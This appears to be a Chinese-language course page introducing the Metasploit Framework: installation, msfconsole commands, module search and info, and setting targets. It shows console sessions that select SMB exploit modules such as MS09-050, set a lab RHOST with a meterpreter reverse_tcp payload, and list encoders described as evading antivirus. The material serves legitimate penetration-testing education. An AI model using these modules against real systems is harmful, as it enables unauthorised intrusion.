










09-信息安全工具使用进阶
- TAGS: Safe
Kali MSF 基本介绍
主要内容：
- Kaili 问题解答与 MSF 知识
- MSF 基本命令
- MSF console Commands
Kali MSF
The Metasploit Framework（简称metasploit），它是一款开源的安全漏洞利用和测试工具，也是目前最流行、最强大、最具扩展性的渗透测试框架之一。集成了各种平台上常见的漏洞和流行的shellcode，并持续保持更新。拥有世界上最大的渗透测试攻击数据库，可以利用其现有的payload进行一系列的渗透测试。
官方网站：https://www.metasploit.com/
github 地址：https://github.com/rapid7/metasploit-framework
如何使用 MSF
MSFconsole是使用Metasploit框架（MSF）的最常用的接口，通过该接口可以实现对MSF的控制和使用。它提供了一个“一体式”集中式控制台，并允许访问 MSF 中几乎所有可用的选项。
Installing Metasploit on Linux / macOS
方法1：
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \ chmod 755 msfinstall && \ ./msfinstall
方法2：
首先下载pkg文件：
http://osx.metasploit.com/metasploitframework-latest.pkg
双击安装
cd /opt/metasploit-framework/bin/
切换到普通用户，运行命令以开始初始设置
$ msfdb init Clearing http web data service credentials in msfconsole Running the 'init' command for the database: Creating database at /home/jasper/.msf4/db Creating db socket file at /tmp Starting database at /home/jasper/.msf4/db...success Creating database users Writing client authentication configuration file /home/jasper/.msf4/db/pg_hba.conf Stopping database at /home/jasper/.msf4/db Starting database at /home/jasper/.msf4/db...success Creating initial database schema Database initialization successful #检查框架版本 $ msfconsole --version Framework Version: 6.3.27-dev- # 启动 $ msfconsole _---------. .' ####### ;." .---,. ;@ @@`; .---,.. ." @@@@@'.,'@@ @@@@@',.'@@@@ ". '-.@@@@@@@@@@@@@ @@@@@@@@@@@@@ @; `.@@@@@@@@@@@@ @@@@@@@@@@@@@@ .' "--'.@@@ -.@ @ ,'- .'--" ".@' ; @ @ `. ;' |@@@@ @@@ @ . ' @@@ @@ @@ , `.@@@@ @@ . ',@@ @ ; _____________ ( 3 C ) /|___ / Metasploit! \ ;@'. __*__,." \|--- \_____________/ '(.,...."/ =[ metasploit v6.3.27-dev- ] + -- --=[ 2333 exploits - 1220 auxiliary - 413 post ] + -- --=[ 1382 payloads - 46 encoders - 11 nops ] + -- --=[ 9 evasion ] Metasploit tip: Save the current environment with the save command, future console restarts will use this environment again Metasploit Documentation: https://docs.metasploit.com/ msf6 > # 更新 Metasploit 框架 $ msfupdate
启动 MSFconsole
在Kali系统的命令行中输入 msfconsole 即可启动。MSFconsole 位于 /usr/share/metasploit-framework/msfconsole 目录中。
加 -q 选项删除开始的图形，是 msfconsole 的安静启动模式。
root@kali:# msfconsole -q msf >
使用 MSFconsole 界面

如何使用命令提示符
可以传递 -h 给 msfconsole 以查看其他可用的使用选项。
msfconsole -h
也可以进入 msf 环境中，使用 help 命令的列出帮助信息。
msf > help
补全标签
MSFconsole 旨在快速使用MSF，由于可用的模块种类繁多，因此可能很难记住我们希望使用的特定模块的确切名称和路径。
与大多数其他 shell 一样，输入我们知道的内容并按“Tab”键将显示可用选项列表，如果只有一个选项，则自动补全字符串。
Tab 补全取决于 ruby readline 扩展，并且控制台中的几乎每个命令都支持 Tab 补全。
use exploit/windows/dcerpc
msf6 > use exploit/windows/smb/ms use exploit/windows/smb/ms03_049_netapi use exploit/windows/smb/ms06_040_netapi use exploit/windows/smb/ms10_046_shortcut_icon_dllloader use exploit/windows/smb/ms04_007_killbill use exploit/windows/smb/ms06_066_nwapi use exploit/windows/smb/ms10_061_spoolss use exploit/windows/smb/ms04_011_lsass use exploit/windows/smb/ms06_066_nwwks use exploit/windows/smb/ms15_020_shortcut_icon_dllloader use exploit/windows/smb/ms04_031_netdde use exploit/windows/smb/ms06_070_wkssvc use exploit/windows/smb/ms17_010_eternalblue use exploit/windows/smb/ms05_039_pnp use exploit/windows/smb/ms07_029_msdns_zonename use exploit/windows/smb/ms17_010_psexec use exploit/windows/smb/ms06_025_rasmans_reg use exploit/windows/smb/ms08_067_netapi use exploit/windows/smb/ms06_025_rras use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
exploit 是 Metasploit 最常用的接口。时间有限，不可能展示exploit下的所有漏洞利用模块，所以会挑一些典型的漏洞进行讲解。学会了典型漏洞的利用方式之后，其他的漏洞利用模块都可以按照同样的步骤去学习使用，大同小异。
MSF console Commands
MSFconsole 有许多不同的命令选项可供选择，以下是参考其输出的一组核心 Metasploit 命令。
Core Commands
=============
Command Description
------- -----------
banner Display an awesome metasploit banner
cd Change the current working directory
color Toggle color
connect Communicate with a host
exit Exit the console
get Gets the value of a context-specific variable
getg Gets the value of a global variable
grep Grep the output of another command
help Help menu
load Load a framework plugin
quit Exit the console
route Route traffic through a session
save Saves the active datastores
sessions Dump session listings and display information about sessions
set Sets a context-specific variable to a value
setg Sets a global variable to a value
sleep Do nothing for the specified number of seconds
spool Write console output into a file as well the screen
threads View and manipulate background threads
unload Unload a framework plugin
unset Unsets one or more context-specific variables
unsetg Unsets one or more global variables
version Show the framework and console library version numbers
Module Commands
===============
Command Description
------- -----------
back Move back from the current context
info Displays information about one or more modules
loadpath Searches for and loads modules from a path
popm Pops the latest module off the stack and makes it active
previous Sets the previously loaded module as the current module
pushm Pushes the active or list of modules onto the module stack
reload_all Reloads all modules from all defined module paths
search Searches module names and descriptions
use Interact with a module by name or search term/index
Job Commands
============
Command Description
------- -----------
jobs Displays and manages jobs
kill Kill a job
rename_job Rename a job
Resource Script Commands
========================
Command Description
------- -----------
makerc Save commands entered since start to a file
resource Run the commands stored in a file
Database Backend Commands
=========================
Command Description
------- -----------
workspace Switch between database workspaces
Developer Commands
==================
Command Description
------- -----------
edit Edit the current module or a file with the preferred editor
irb Open an interactive Ruby shell in the current context
back
一旦完成了特定模块的工作，或者如果无意中选择了错误的模块，可以发出 back 命令返回前一个命令行。
msf auxiliary(ms09_001_write) > back msf >
banner
显示 banner 信息
收录漏洞数、
msf6 > banner # cowsay++ ____________ < metasploit > ------------ \ ,__, \ (oo)____ (__) )\ ||--|| * =[ metasploit v6.3.27-dev- ] + -- --=[ 2333 exploits - 1220 auxiliary - 413 post ] + -- --=[ 1382 payloads - 46 encoders - 11 nops ] + -- --=[ 9 evasion ] Metasploit tip: Save the current environment with the save command, future console restarts will use this environment again Metasploit Documentation: https://docs.metasploit.com/
2333 exploits - 1220 auxiliary - 413 post ： 收录 2333 个漏洞模块、1171 辅助模块、413 个后渗透攻击
1382 payloads - 46 encoders - 11 nops：1382 个目标位置可执行指令、46 个加密模块，可以做免疫杀毒
check
漏洞检查 选项，可以检查目标是否容易受到特定漏洞的攻击，而不是实际利用它。需要注意的是，支持check的漏洞利用模块并不多。
msf6 > search ms08
msf6 > use 0
msf6 > info
... ...
Check supported:
Yes 说明支持Check模块
...
msf6 exploit(windows/smb/ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT 445 yes The SMB service port (TCP)
SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 10.0.4.12 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic Targeting
View the full module info with the info, or info -d command.
msf exploit(ms08_067_netapi) > check
[*] Verifying vulnerable status... (path: 0x0000005a)
[*] System is not vulnerable (status: 0x00000000)
[*] The target is not exploitable.
color
命令行字符设置是否展示颜色，可以搭配banner进行尝试。
msf6 > color Usage: color <'true'|'false'|'auto'> Enable or disable color output.
connect
msfconsole 中内置了一个微型 Netcat ，支持 SSL、代理和文件传输。通过发出的 connect 带有 IP 地址和端口号命令，可以从 msfconsole 中连接到远程主机，就像使用 Netcat 或 Telnet 一样。
msf > connect 192.168.1.1 23 [*] Connected to 192.168.1.1:23 DD-WRT v24 std (c) 2008 NewMedia-NET GmbH Release: 07/27/08 (SVN revision: 10011) DD-WRT login:
可以通过 -h 来查看所有附加选项参数。
msf6 > connect -h
Usage: connect [options] <host> <port>
Communicate with a host, similar to interacting via netcat, taking advantage of
any configured session pivoting.
OPTIONS:
-c, --comm <comm> Specify which Comm to use.
-C, --crlf Try to use CRLF for EOL sequence.
-h, --help Help banner.
-i, --send-contents <file> Send the contents of a file.
-p, --proxies <proxies> List of proxies to use.
-P, --source-port <port> Specify source port.
-S, --source-address <address> Specify source address.
-s, --ssl Connect with SSL.
-u, --udp Switch to a UDP socket.
-w, --timeout <seconds> Specify connect timeout.
-z, --try-connection Just try to connect, then return.
exit
退出 msfconsole.
grep
该 grep 的命令类似的Linux的grep。它匹配来自另一个 msfconsole 命令的输出内容。
以下是使用的示例， grep 匹配包含字符串“http”的输出，该输出来自 搜索 包含字符串“oracle”的模块。
msf6 > grep
Usage: grep [OPTIONS] [--] PATTERN CMD...
Grep the results of a console command (similar to Linux grep command)
-m, --max-count num Stop after num matches.
-A, --after-context num Show num lines of output after a match.
-B, --before-context num Show num lines of output before a match.
-C, --context num Show num lines of output around a match.
-v, --[no-]invert-match Invert match.
-i, --[no-]ignore-case Ignore case.
-c, --count Only print a count of matching lines.
-k, --keep-header num Keep (include) num lines at start of output
-s, --skip-header num Skip num lines of output before attempting match.
-h, --help Help banner.
--generate-completions str Return possible tab completions for given string.
msf6 >
msf6 > grep http search oracle
0 exploit/windows/http/apache_chunked 2002-06-19 good Yes Apache Win32 Chunked Encoding
24 exploit/windows/http/oracle9i_xdb_pass 2003-08-18 great Yes Oracle 9i XDB HTTP PASS Overflow (win32)
25 exploit/multi/http/oracle_ats_file_upload 2016-01-20 excellent Yes Oracle ATS Arbitrary File Upload
29 exploit/windows/http/oats_weblogic_console 2019-03-13 excellent Yes Oracle Application Testing Suite WebLogic Server Administration Console War Deployment
31 exploit/windows/http/oracle_beehive_prepareaudiotoplay 2015-11-10 excellent Yes Oracle BeeHive 2 voice-servlet prepareAudioToPlay() Arbitrary File Upload
32 exploit/windows/http/oracle_beehive_evaluation 2010-06-09 excellent Yes Oracle BeeHive 2 voice-servlet processEvaluation() Vulnerability
33 exploit/windows/http/oracle_btm_writetofile 2012-08-07 excellent No Oracle Business Transaction Management FlashTunnelService Remote Code Execution
54 auxiliary/scanner/http/oracle_demantra_file_retrieval 2014-02-28 normal No Oracle Demantra Arbitrary File Retrieval with Authentication Bypass
55 auxiliary/scanner/http/oracle_demantra_database_credentials_leak 2014-02-28 normal No Oracle Demantra Database Credentials Leak
57 exploit/linux/http/oracle_ebs_rce_cve_2022_21587 2022-10-01 excellent Yes Oracle E-Business Suite (EBS) Unauthenticated Arbitrary File Upload
58 exploit/windows/http/oracle_endeca_exec 2013-07-16 excellent Yes Oracle Endeca Server Remote Command Execution
60 exploit/windows/http/oracle_event_processing_upload 2014-04-21 excellent Yes Oracle Event Processing FileUploadServlet Arbitrary File Upload
61 exploit/multi/http/oracle_reports_rce 2014-01-15 great Yes Oracle Forms and Reports Remote Code Execution
62 auxiliary/scanner/http/oracle_ilom_login normal No Oracle ILO Manager Login Brute Force Utility
74 exploit/windows/http/osb_uname_jlist 2010-07-13 excellent No Oracle Secure Backup Authentication Bypass/Command Injection Vulnerability
87 exploit/multi/http/weblogic_admin_handle_rce 2020-10-20 excellent Yes Oracle WebLogic Server Administration Console Handle RCE
88 exploit/multi/http/oracle_weblogic_wsat_deserialization_rce 2017-10-19 excellent No Oracle WebLogic wls-wsat Component Deserialization RCE
89 exploit/windows/http/bea_weblogic_post_bof 2008-07-17 great Yes Oracle Weblogic Apache Connector POST Request Buffer Overflow
101 auxiliary/scanner/http/glassfish_traversal 2015-08-08 normal No Path Traversal in Oracle GlassFish Server Open Source Edition
112 exploit/multi/http/glassfish_deployer 2011-08-04 excellent No Sun/Oracle GlassFish Server Authenticated Code Execution
查询 oracle 漏洞利用模块，过滤包含 weblogic 组件的信息
msf6 > grep weblogic search oracle
help
列出帮助list和所有可用的命令.
info
信息 命令会提供包括所有选项、目标和其它信息的特定漏洞利用模块的详细信息。
info 命令还提供以下信息：
作者和许可信息 漏洞参考（即：CVE、BID 等） 模块可能具有的任何有效载荷限制
msf6 > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > info
Name: MS09-050 Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference
Module: exploit/windows/smb/ms09_050_smb2_negotiate_func_index
Platform: Windows
Arch:
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Good
Disclosed: 2009-09-07
Provided by:
Laurent Gaffie <laurent.gaffie@gmail.com>
hdm <x@hdm.io>
sf <stephen_fewer@harmonysecurity.com>
Available targets:
Id Name
-- ----
=> 0 Windows Vista SP1/SP2 and Server 2008 (x86)
Check supported:
No
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit
/basics/using-metasploit.html
RPORT 445 yes The target port (TCP)
WAIT 180 yes The number of seconds to wait for the attack to complete.
Payload information:
Space: 1024
Description:
This module exploits an out of bounds function table dereference in the SMB
request validation code of the SRV2.SYS driver included with Windows Vista, Windows 7
release candidates (not RTM), and Windows 2008 Server prior to R2. Windows Vista
without SP1 does not seem affected by this flaw.
References:
https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2009/MS09-050
https://nvd.nist.gov/vuln/detail/CVE-2009-3103
http://www.securityfocus.com/bid/36299
OSVDB (57799)
https://seclists.org/fulldisclosure/2009/Sep/0039.html
View the full module info with the info -d command.
jobs
对工作在后台的进程进行操作。
漏洞攻击成功后会创建一个会话连接 session，这些会话默认保存在后台，利用 jobs 切换
kill
杀死正在运行的进程.
msf exploit(ms10_002_aurora) > kill 0 Stopping job: 0... [*] Server stopped.
search
msfconsole包含广泛的基于正则表达式的搜索功能。如果对所要查找的内容有大致了解，可以通过search进行搜索。
msf6 > search usermap_script Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 exploit/multi/samba/usermap_script 2007-05-14 excellent No Samba "username map script" Command Execution Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script
name
要使用描述性名称进行搜索，需要使用name关键字。
msf6 > search name:mysql Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 auxiliary/server/capture/mysql normal No Authentication Capture: MySQL 1 auxiliary/scanner/mysql/mysql_writable_dirs normal No MYSQL Directory Write Test 2 auxiliary/scanner/mysql/mysql_file_enum normal No MYSQL File/Directory Enumerator 3 auxiliary/scanner/mysql/mysql_hashdump normal No MYSQL Password Hashdump 4 auxiliary/scanner/mysql/mysql_schemadump normal No MYSQL Schema Dump 5 auxiliary/scanner/mysql/mysql_authbypass_hashdump 2012-06-09 normal No MySQL Authentication Bypass Password Dump 6 auxiliary/admin/mysql/mysql_enum normal No MySQL Enumeration Module 7 auxiliary/scanner/mysql/mysql_login normal No MySQL Login Utility 8 auxiliary/admin/mysql/mysql_sql normal No MySQL SQL Generic Query 9 auxiliary/scanner/mysql/mysql_version normal No MySQL Server Version Enumeration 10 exploit/linux/mysql/mysql_yassl_getname 2010-01-25 good No MySQL yaSSL CertDecoder::GetName Buffer Overflow 11 exploit/linux/mysql/mysql_yassl_hello 2008-01-04 good No MySQL yaSSL SSL Hello Message Buffer Overflow 12 exploit/windows/mysql/mysql_yassl_hello 2008-01-04 average No MySQL yaSSL SSL Hello Message Buffer Overflow 13 exploit/multi/mysql/mysql_udf_payload 2009-01-16 excellent No Oracle MySQL UDF Payload Execution 14 exploit/windows/mysql/mysql_start_up 2012-12-01 excellent Yes Oracle MySQL for Microsoft Windows FILE Privilege Abuse 15 exploit/windows/mysql/mysql_mof 2012-12-01 excellent Yes Oracle MySQL for Microsoft Windows MOF Execution 16 exploit/windows/mysql/scrutinizer_upload_exec 2012-07-27 excellent Yes Plixer Scrutinizer NetFlow and sFlow Analyzer 9 Default MySQL Credential Interact with a module by name or index. For example info 16, use 16 or use exploit/windows/mysql/scrutinizer_upload_exec
platform
可以使用platform将搜索范围缩小到影响特定平台的模块。
msf > search platform:aix
type
使用type可以按模块类型进行过滤，如辅助、发布、利用等。
msf > search type:post
author
使用author关键字搜索，可以按自己喜好的作者搜索模块。
msf > search author:dookie
multiple
还可以将多个关键字组合在一起，以进一步缩小返回结果的范围。
msf6 > search cve:2011 author:jduck platform:linux Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 exploit/linux/misc/netsupport_manager_agent 2011-01-08 average No NetSupport Manager Agent Remote Buffer Overflow Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/misc/netsupport_manager_agent
sessions
sessions命令允许列出、与衍生会话交互和终止衍生会话。
要列出所有活动的会话，使用 -l 选项传递给sessions。
要与给定会话交互，只需使用 -i ，后面跟会话的id号。
set
set命令允许为正在使用的当前模块配置框架选项和参数。
msf6 > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > options
Module options (exploit/windows/smb/ms09_050_smb2_negotiate_func_index):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploi
t/basics/using-metasploit.html
RPORT 445 yes The target port (TCP)
WAIT 180 yes The number of seconds to wait for the attack to complete.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.39 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > set RHOST 172.16.194.134
RHOST => 172.16.194.134
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > show options
Module options (exploit/windows/smb/ms09_050_smb2_negotiate_func_index):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 172.16.194.134 yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
Metasploit还允许设置在运行时使用的编码器。当不确定哪些有效负载编码方法将与给定的漏洞一起工作时，就需要进行选择。这在漏洞利用开发中特别有用。
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > show encoders Compatible Encoders =================== # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 encoder/generic/eicar manual No The EICAR Encoder 1 encoder/generic/none normal No The "none" Encoder 2 encoder/x86/add_sub manual No Add/Sub Encoder 3 encoder/x86/alpha_mixed low No Alpha2 Alphanumeric Mixedcase Encoder 4 encoder/x86/alpha_upper low No Alpha2 Alphanumeric Uppercase Encoder 5 encoder/x86/avoid_underscore_tolower manual No Avoid underscore/tolower 6 encoder/x86/avoid_utf8_tolower manual No Avoid UTF8/tolower 7 encoder/x86/bloxor manual No BloXor - A Metamorphic Block Based XOR Encoder 8 encoder/x86/bmp_polyglot manual No BMP Polyglot 9 encoder/x86/call4_dword_xor normal No Call+4 Dword XOR Encoder 10 encoder/x86/context_cpuid manual No CPUID-based Context Keyed Payload Encoder 